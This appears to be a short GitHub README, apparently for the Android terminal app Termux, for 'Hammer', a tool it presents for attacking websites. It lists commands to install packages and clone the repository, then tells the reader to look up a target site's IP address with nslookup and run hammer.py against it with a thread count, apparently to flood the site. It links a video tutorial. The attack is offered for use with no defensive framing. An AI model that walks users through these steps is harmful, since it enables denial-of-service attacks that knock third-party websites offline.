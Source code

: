 apt update<br>
apt upgrade<br>
apt install python<br>
apt install git<br>
apt install dnsutils<br>
git clone https://github.com/Pavithran-R/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
cd Hammer<br>
python hammer.py -s [ip Address] -t 135<br>
example:<br>
python hammer.py -s 123.45.67.89 -t 135<br>

Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)
